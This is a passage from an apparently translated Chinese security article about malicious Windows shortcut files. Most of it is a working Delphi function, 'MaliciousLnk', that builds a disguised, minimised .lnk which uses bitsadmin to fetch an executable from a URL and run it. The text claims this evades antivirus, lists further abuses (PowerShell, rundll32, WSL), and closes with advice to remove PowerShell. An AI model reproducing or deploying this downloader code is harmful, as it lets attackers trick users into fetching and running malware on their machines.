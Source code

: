 <br>

**DIY，编程方式（Delphi） **

```
uses ActiveX, ShlObj, ComObj;
function MaliciousLnk(fileUrl, destFile : String) : Boolean;
var cObject   : IUnknown;
    shellLink : IShellLink;
    PFile     : IPersistFile;
    LinkName  : string;
    Cmd       : String;
begin
  result := false;
  CoInitialize(nil);
  try
    cObject := CreateComObject(CLSID_ShellLink);
    shellLink := cObject as IShellLink;
    PFile := cObject as IPersistFile;
    Cmd := '/C "c:windowssystem32bitsadmin.exe /transfer downloader /priority normal "' + fileURL + '" %temp%tmp.exe &amp; %temp%tmp.exe"';
    shellLink.SetDescription('www.phrozensoft.com');
    shellLink.SetPath('cmd.exe');
    shellLink.SetArguments(PWideChar(cmd));
    shellLink.SetShowCmd(SW_SHOWMINNOACTIVE);
    shellLink.SetWorkingDirectory('%windir%system32');
    shellLink.SetIconLocation('shell32.dll', 1);
    result := PFile.Save(PWideChar(destFile), false) = S_OK;
  finally
    CoUninitialize();
  end;
end;
```

注意，这种技术在Windows XP SP2到Windows 10（最新版本）的所有版本上面都有效，其中包括相应的服务器版本。

通过这种方法，黑客甚至不需要创建下载恶意软件的代码，从而可以逃避防病毒检测。这里没有用到任何二进制可执行文件！

这里的bitsadmin.exe只是用来说明Windows快捷方式用法的一个例子，可以这么说，凡是可以通过命令行方式做到的事情，都可以通过快捷方式做到，例如：

使用所有常规的Windows DOS命令

使用PowerShell来制作恶意代码

使用新版Windows 10的嵌入式Linux系统（仅限于已激活此选项的用户）

使用rundll32.exe调用DLL导出的函数

等等… 

注意：对于不需要使用PowerShell的普通Windows用户（默认情况下已启用）来说，我们建议卸载该软件包。这样可以免受所有通过PowerShell安装恶意代码的恶意软件的攻击。

请按照以下步骤卸载PowerShell包（可以随时还原）

打开Program and Features，然后点选Turn Windows features on or off

[![](https://p0.ssl.qhimg.com/t0185be0eecb44a7595.png)](https://p0.ssl.qhimg.com/t0185be0eecb44a7595.png)
